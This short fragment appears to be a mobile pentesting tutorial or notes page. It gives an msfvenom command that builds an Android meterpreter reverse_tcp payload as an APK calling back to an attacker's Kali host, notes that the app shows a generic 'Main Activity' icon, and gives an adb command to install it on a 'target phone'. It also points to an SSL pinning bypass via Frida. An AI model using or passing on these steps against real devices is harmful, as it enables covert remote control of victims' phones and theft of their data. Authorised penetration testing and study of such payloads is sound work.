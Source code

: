
**msfvenom -p android/meterpreter/reverse_tcp LHOST=<kali_IP> LPORT=<your_port> R> -o <myapp.apk>**

This will make an app with a generic looking icon named "Main Activity"

Install it to your target phone: adb install myapp.apk

Create key as mentioned in SSL Pinning ByPass via Frida